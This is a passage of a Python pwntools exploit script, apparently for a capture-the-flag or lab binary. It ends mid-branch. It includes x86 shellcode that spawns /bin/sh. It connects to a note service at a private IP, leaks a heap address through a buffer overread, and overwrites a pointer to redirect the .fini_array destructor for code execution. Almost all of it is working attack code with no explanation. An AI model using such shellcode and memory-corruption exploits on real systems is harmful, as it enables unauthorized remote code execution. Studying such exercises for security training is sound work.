 ```python
  b"\x5e\x88\x46\x07\x89\x46\x0c\x89\x76\x08\x89\xf3"
  b"\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\x31\xc0"
  b"\x31\xdb\x40\xcd\x80\xe8\xde\xff\xff\xff/bin/sh"
)


p = remote("192.168.56.83", 53121)
p.readuntil("> ")
p.sendline(b"new")
p.readuntil("> ")
p.sendline(b"new")
p.readuntil("> ")

buff = "A"
leaked = b""
leaking = False
fini_addr = 0x804a260
welcome_addr = 0x0804874c
note1_addr = 0
padding = 0
testing_fini_overwrite = False

while True:
    p.sendline(b"set")
    p.readuntil("> id: ")
    p.sendline(b"0")
    p.readuntil("> text(32 max):")
    p.sendline(buff.encode())
    p.readuntil("[*] Note 0 set")
    p.readuntil("> ")
    p.sendline(b"show")
    p.readuntil("> id: ")
    p.sendline(b"0")
    line = p.readuntil("> ").split(b"[*] Note 0 text: ")[1][:-3]
    if not leaking:
        if b"@" in line:
            leaking = True
            leaked += b"@"
            padding = len(buff)
    else:
        leaked += line[len(buff):][:1] or b"\x00"
        if len(leaked) >= 8:
            note1_addr = unpack("<I", leaked[4:8])[0]
            print(f"Note #1 addr: 0x{note1_addr:08x}")
            break
    buff += "A"

p.sendline(b"set")
p.readuntil("> id: ")
p.sendline(b"0")
p.readuntil("> text(32 max):")
# Set note #1 buffer address to __do_global_dtors_aux_fini_array_entry
p.sendline(b"A"*padding + b"BBBB" + pack("<I", fini_addr))
p.readuntil("[*] Note 0 set")
p.readuntil("> ")

p.sendline(b"set")
p.readuntil("> id: ")
p.sendline(b"1")
p.readuntil("> text(32 max):")

if testing_fini_overwrite:
    # Put welcome function address as destructor
```